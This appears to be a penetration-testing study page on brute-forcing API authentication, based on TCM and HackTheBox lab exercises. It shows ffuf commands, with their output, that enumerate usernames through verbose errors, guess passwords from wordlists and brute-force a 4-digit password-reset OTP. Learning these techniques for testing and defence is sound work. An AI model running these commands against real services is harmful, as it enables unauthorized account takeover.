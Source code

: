 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Brute Force

{% hint style="success" %}
**BFAs** (_Brute Force Attacks_) involve systematically trying various inputs to gain unauthorized access by exploiting weak or predictable credentials. Without [rate-limiting](../../../web/authentication/rate-limiting.md) or strong authentication mechanisms, attackers can automate these attempts to guess valid credentials and gain access to the API or its data.

[API2:2023](https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/)
{% endhint %}

## Passwords

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

We might be able to enumerate valid usernames via verbose error messages (Figure 1).

<figure><img src="../../../../.gitbook/assets/bfa_1.png" alt=""><figcaption><p>Figure 1: Enumerating a valid username based on verbose error messages.</p></figcaption></figure>

When a valid username is obtained, we can try brute-forcing its password using Burp's Intruder (Figure 2) or CLI tools, such as [`ffuf`](../../../../tools/web/dirbusting/fuff.md).

<figure><img src="../../../../.gitbook/assets/bfa_2.png" alt=""><figcaption><p>Figure 2: Brute-forcing <code>admin</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing admin's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/rockyou:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"admin","password":"PASS"}' -c -fc 401
```
{% endcode %}

Based on the above verbose error message (`Invalid password`) we can try to enumerate more valid users (Figure 3), and if other users are found, we can repeat the above process to enumerate their passwords (Figure 4).

<figure><img src="../../../../.gitbook/assets/bfa_3.png" alt=""><figcaption><p>Figure 3: Fuzzing for other valid users based on the verbose error message.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Fuzzing for other valid users based on the verbose error message.
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:USER -X POST -H 'Content-Type: application/json' -d '{
"email":"USER","password":"admin"}' -c -mr "Invalid password!"

________________________________________________
jeremy                  [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 0ms]
admin                   [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 265ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/bfa_4.png" alt=""><figcaption><p>Figure 4: Fuzzing <code>jeremy</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing jeremy's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"jeremy","password":"PASS"}' -c -mc 200
```
{% endcode %}

## OTPs

> _The below example is based on HTB's_ [_API Attacks_](https://academy.hackthebox.com/course/preview/api-attacks) _module._

If the password policy is robust enough, we can check if the password reset functionality is vulnerable to BFAs due to weak One Time Passcodes (OTPs) (Figure 5).

<figure><img src="../../../../.gitbook/assets/api_bfa_token_1.png" alt=""><figcaption><p>Figure 5: Getting the required information for brute-forcing the OTP</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing the OTP
$ ffuf -u http://94.237.59.199:45348/api/v1/authentication/customers/passwords/resets -X POST -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt:FUZZ -d '{"Email": "MasonJenkins@ymail.com","OTP": "FUZZ","NewPassword": "123456"}' -ac -c -fr ":false" -t 100

0426                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 40ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/api_bfa_token_2.png" alt=""><figcaption><p>Figure 6: Successfully logging in.</p></figcaption></figure>
